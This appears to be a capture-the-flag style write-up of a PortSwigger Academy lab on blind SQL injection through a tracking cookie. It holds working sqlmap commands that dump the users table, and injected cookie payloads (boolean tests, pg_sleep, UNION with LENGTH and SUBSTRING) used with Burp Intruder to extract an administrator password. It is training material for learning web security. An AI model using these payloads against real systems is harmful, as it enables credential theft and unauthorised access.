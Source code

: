 # [Lab: Blind SQL injection with conditional responses](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses)

## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

## tools

sqlmap:

modify a request in burpsuite proxy and save it to a file (sqlmapr):

```http
GET /filter?category=abc HTTP/1.1
Host: id.web-security-academy.net
Cookie: TrackingId=*;
```

run sqlmap:

- `sqlmap -r sqlmapr -batch`
- `sqlmap -r sqlmapr -batch --dbms=postgresql -dbs`
- `sqlmap -r sqlmapr -batch --dbms=postgresql -D public --tables`
- `sqlmap -r sqlmapr -batch --dbms=postgresql -D public -T users -dump`

## manual

1. Detect SQLi:

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => welcome response

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK'; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => There is no welcome in response

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK'+AND+'1'%3d'1'--; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => welcome response

    ```http
    GET / HTTP/1.1
    Host: 0a31007304d9b48dc0f0bd4300b100fc.web-security-academy.net
    Cookie: TrackingId=gp2SbVXwwSsrKYXK'+AND+'1'%3d'2'--; session=BBxmO5MSN0jzahpcW7vVB8cymKgGqKGj
    ```

    => There is no welcome in response

2. Check version: `TrackingId=1wURfC7i7InFbVKD'%3b+SELECT+'a'+FROM+pg_sleep(10)+--;`

3. Determining the number of columns using burp's intruder:
    - positions: `TrackingId=gp2SbVXwwSsrKYXK'+ORDER+BY+§§--;`
    - payloads: 1 -> 10
    - result: 1

4. Determine the length of admin password using burp's intruder:

    - positions: `TrackingId=XJqlAELi1rQJ6nVY'+AND+'1'%3d'2'UNION+SELECT+username+FROM+users+WHERE+username%3d'administrator'+AND+LENGTH(password)=§§--;`
    - payloads: 1 -> 30
    - result: 20

5. Determine the password: using SUBSTRING and burp's intruder.

    - attack mode: Cluster bomb
    - positions:

        ```http
        GET / HTTP/1.1
        Host: 0a5600bf03f79d08c0d9bee70045003c.web-security-academy.net
        Cookie: TrackingId=XJqlAELi1rQJ6nVY'+AND+'1'%3d'2'UNION+SELECT+username+FROM+users+WHERE+username%3d'administrator'+AND+SUBSTRING(password,§§,1)='§§'--;
        ```

    - Payloads:
        - Set 1: 1->20
        - Set 2: a->z, A->Z, 1->9
    - result:

        ![password.png](./../img/lab-11-password.png)

6. Login to admin account => Lab Solved
